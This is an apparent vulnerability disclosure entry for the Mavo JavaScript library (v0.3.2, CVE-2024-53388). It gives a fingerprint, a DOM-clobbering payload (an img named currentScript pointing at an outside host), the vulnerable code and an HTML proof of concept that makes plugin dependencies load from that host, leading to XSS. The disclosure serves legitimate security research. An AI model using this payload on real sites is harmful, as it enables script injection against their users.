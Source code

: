 ## Mavo

### Meta

+ Library: Mavo
+ Stars: 2.8K
+ Version: v0.3.2
+ Fingerprint: `typeof Mavo !== 'undefined' && Mavo.hasOwnProperty('Plugins')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: CVE-2024-53388
+ Foundby: TheHulk

### Library

https://github.com/mavoweb/mavo

URL:
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.es5.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.es5.min.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/mavo/0.3.2/mavo.min.js`
+ `https://cdn.jsdelivr.net/npm/mavo@0.3.2/dist/mavo.min.js`

### Vulnerable Code Snippet

```javascript
if (o.dependencies) {
    let base = document.currentScript? document.currentScript.src : location;
    let dependencies = o.dependencies.map(url => Mavo.load(url, base));
    ready.push(...dependencies);
}
```

## PoC

```html
<!--Library-->
<script src="https://get.mavo.io/stable/mavo.js"></script>
<link rel="stylesheet" href="https://get.mavo.io/stable/mavo.css">
<script>
(function ($, $$) {

Mavo.Plugins.register("myplugin", {
	dependencies: ["a.js"],
});

})(Bliss, Bliss.$);
</script>
<!--Library-->

<!--Payload-->
<img name=currentScript src="http://localhost:9999"></img>
<!--Payload-->
```